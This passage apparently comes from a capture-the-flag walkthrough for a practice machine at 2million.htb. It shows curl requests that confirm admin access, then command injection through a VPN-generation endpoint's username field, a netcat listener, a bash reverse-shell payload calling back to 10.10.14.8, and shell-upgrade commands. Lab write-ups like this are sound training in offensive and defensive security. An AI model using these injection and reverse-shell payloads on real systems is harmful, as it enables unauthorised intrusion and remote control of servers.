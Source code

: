 4.  **Verify Admin Status:**
    Check the `/api/v1/admin/auth` endpoint.

    ```bash
    curl -X GET http://2million.htb/api/v1/admin/auth \
      -H 'Cookie: PHPSESSID=<your_php_session_id>' | jq .
    ```

    If `true`, you are now an administrator.

### Command Injection in VPN Generation

As an administrator, the `/api/v1/admin/vpn/generate` endpoint is accessible. This endpoint appears vulnerable to command injection through the `username` parameter.

1.  **Test for Command Injection:**
    Send a `POST` request to `/api/v1/admin/vpn/generate` with a `username` parameter that includes a time-based command injection payload.

    ```bash
    curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
      -H 'Content-Type: application/json' \
      -H 'Cookie: PHPSESSID=<your_php_session_id>' \
      -d '{"username":"test; sleep 5;"}'
    ```

    If the response is delayed by 5 seconds, command injection is confirmed.

2.  **Establish a Reverse Shell:**
    Set up a Netcat listener on your attacking machine:

    ```bash
    nc -lvnp 9001
    ```

    Send a `POST` request to `/api/v1/admin/vpn/generate` with a reverse shell payload in the `username` parameter.

    ```bash
    curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
      -H 'Content-Type: application/json' \
      -H 'Cookie: PHPSESSID=<your_php_session_id>' \
      -d '{"username":"ipsec; bash -c \"bash -i >& /dev/tcp/10.10.14.8/9001 0>&1\""}'
    ```

      * Replace `10.10.14.8` with your attacking machine's IP address.
      * `ipsec;`: A dummy username followed by the command injection.

    Upon execution, you should receive a shell on your Netcat listener.

### Shell Upgrade

Upgrade the shell to a fully interactive TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z to background nc
stty raw -echo; fg
export TERM=xterm
clear
```
